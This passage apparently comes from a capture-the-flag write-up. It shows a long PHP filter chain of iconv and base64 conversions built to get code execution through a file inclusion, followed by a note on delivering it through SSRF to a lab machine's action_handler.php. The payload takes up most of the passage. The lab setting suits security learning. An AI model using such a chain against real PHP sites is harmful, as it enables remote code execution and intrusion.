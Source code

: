     php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
    

I’m going to use the SSRF to hit
`image.haxtables.htb/actions/action_handler.php` with a `page` parameter of
the filters above. `/index.php` will be appended to the end, but that doesn’t
matter, as `php://temp/index.php` will be a valid PHP temp file.
